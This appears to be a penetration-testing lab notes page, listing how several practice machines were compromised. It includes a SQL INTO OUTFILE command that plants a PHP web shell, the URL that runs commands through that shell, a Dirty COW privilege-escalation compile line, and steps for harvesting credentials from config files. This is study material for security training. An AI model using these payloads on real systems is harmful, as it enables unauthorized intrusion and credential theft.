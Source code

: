 * Got in through phpmyadmin \[root:no password]
* Able to get shell through SQL database commands

```
SELECT "<?php echo shell_exec($_GET['cmd']); ?>" into outfile "C:/xampp/htdocs/xampp/shell.php";
```

* Then browse to:

```
10.10.10.10/xampp/shell.php?cmd=dir
```

* Look for config files with passwords

```
C:\xampp\htdocs\admin\config.php
```

### Lucky GetSimple!

```
10.16.1.2/data/users/lucky.xml
```

* See the config file and passwd hash with username, crack in john
* PE with dirtycow \[CVE-2016-5195]
* Compile with

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

### Dolphin Wordpress

* Dolphin <7.3.2 Auth bypass / RCE exploit by Ahmed Sultan

### Codiad Impresscms

```
10.10.10.10/codiad/data/users.php
```

* Directories found

```
/config.php
/data
/wordspace
```

* Upload web shell
* Found SSH creds

### Techblog (Wordpress Siteimport Exploit)

* ![wp](https://user-images.githubusercontent.com/75596877/129896695-6c92634a-f5cc-4c47-96c3-a9fbc3dfcd1d.png)
* LFI
